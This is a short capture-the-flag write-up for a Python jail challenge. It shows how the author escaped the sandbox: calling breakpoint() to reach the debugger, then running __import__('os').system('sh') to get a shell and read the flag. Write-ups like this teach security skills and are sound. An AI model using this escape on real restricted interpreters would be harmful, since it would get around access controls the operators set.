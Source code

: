 # Baby's First Pyjail
> @windex told me that jails should be sourceless. So no source for you.

## About the Challenge
We got a server to connect and we can execute a python code there

![preview](images/preview.png)

## How to Solve?
To spawn a shell, I used this command which a combination of `breakpoint()` and executing `system()` command

```
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) __import__("os").system("sh")
```

![flag](images/flag.png)

```
uoftctf{you_got_out_of_jail_free}
```